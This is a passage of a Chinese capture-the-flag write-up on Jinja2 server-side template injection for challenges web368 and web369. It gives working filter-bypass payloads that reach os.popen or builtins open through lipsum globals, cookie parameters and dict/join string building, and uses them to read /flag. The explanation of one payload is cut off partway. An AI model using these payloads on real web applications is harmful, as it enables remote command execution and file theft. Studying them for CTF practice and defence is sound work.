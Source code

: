 ```
{{(lipsum|attr(request.cookies.x1)).get(request.cookies.x2).popen(request.cookies.x3).read()}}

Cookie传参：x1= __globals__;x2=os;x3=tac /flag
```

![image-20240304202430444](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240304202430444.png)

### [web368]过滤''、""、[、args、_、os、{{

通过`{百分号print(......)%}`替代`{{...}}`来绕过对`{花括号`的过滤

```
{百分号print(lipsum|attr(request.cookies.x1)).get(request.cookies.x2).popen(request.cookies.x3).read()%}

Cookie传参：x1= __globals__;x2=os;x3=tac /flag
```

也可以用`{百分号set`来绕过

```
{百分号set aaa=(lipsum|attr(request.cookies.x1)).get(request.cookies.x2).popen(request.cookies.x3).read()%}{百分号print(aaa)%}

Cookie传参：x1= __globals__;x2=os;x3=tac /flag
```

{% raw %}

### [web369]过滤''、""、[、args、_、os、{{、request

抄了以下payload：

#### payload1：读取`/flag`文件：

```
?name=
{% set po=dict(po=1,p=2)|join}
{% set a=(()|select|string|list)|attr(po)(24)%}
{% set re=dict(reque=1,st=1)|join%}
{% set in=(a~a~dict(init=a)|join~a~a)|join()%}
{% set gl=(a~a~dict(globals=q)|join~a~a)|join()%}
{% set ge=(a~a~dict(getitem=a)|join~a~a)%}
{% set bu=(a~a~dict(builtins=a)|join~a~a)|join()%}
{% set x=(q|attr(in)|attr(gl)|attr(ge))(bu)%}
{% set chr=x.chr%}
{% set f=chr(47)~(dict(flag=a)|join)%}
{% print(x.open(f).read())%}
```

详解：

```
//构造pop
{% set po=dict(po=1,p=2)|join%}

//构造下划线 _
{% set a=(()|select|string|list)|attr(po)(24)%}

//构造request
{% set re=dict(reque=1,st=1)|join%}

//构造__init__
{% set in=(a~a~dict(init=a)|join~a~a)|join()%}

//构造__globals__
{% set gl=(a~a~dict(globals=q)|join~a~a)|join()%}

```